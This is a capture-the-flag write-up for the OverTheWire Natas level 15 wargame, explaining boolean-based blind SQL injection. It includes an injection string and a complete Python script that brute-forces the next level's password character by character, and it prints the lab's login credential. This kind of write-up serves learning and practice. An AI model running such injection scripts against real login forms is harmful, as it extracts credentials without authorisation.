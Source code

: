 we can use same SQL injection from previous level , but this time password field not , there and its return give actual password , it just say whether the username exist in the database we can use `LIKE %%` to check partial password something like this , where AND Boolean used to true if both natas16 and password LIKE "a%" , instead `a` we check every characters (letters + digits) and brute force password , `BINARY` used why because SQL case insensitive , binary unique for both uppercase and lowercase characters , This called as **BOOLEAN BASED - BLIND SQL INJECTION**

```
natas16 AND password BINARY LIKE "a%" #
```

Let focus on brute force and if we get response `user exits` then , its a correct character append to `seen_password` List till got the full password

```py
seen_password = list()

while (len(seen_password) < 32):
	for ch in characters:
		print("Trying char with passwd", "".join(seen_password) + ch )
		response = session.post( url , data = { "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen_password) + ch +'%" # ' } , auth=(username,password))
		content = response.text
		if ('user exists' in content):
			seen_password.append(ch)
```

```
a..z + A..Z + 0..9

these characters brute forcing the if we got user exist , then append to seen_passoword till length of password is 32 , as we know from previous levels flag lengh is 32
```

Let write full python script

```py
import requests
import os ,sys
from string import *

# This used to clear terminal after we checked char
cmd = ""
os_name = sys.platform
if os_name == 'win32':
	cmd = "cls"
elif os_name == 'linux' or os_name == 'darwin':
	cmd =  "clear"

characters = ascii_lowercase + ascii_uppercase + digits
username = "natas15"
password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"

url = "http://%s.natas.labs.overthewire.org"%username

session = requests.Session()
seen_password = list()

while (len(seen_password) < 32):
	for ch in characters:
		print("Trying char with passwd", "".join(seen_password) + ch )
		response = session.post( url , data = { "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen_password) + ch +'%" # ' } , auth=(username,password))
		content = response.text
		if ('user exists' in content):
			seen_password.append(ch)


```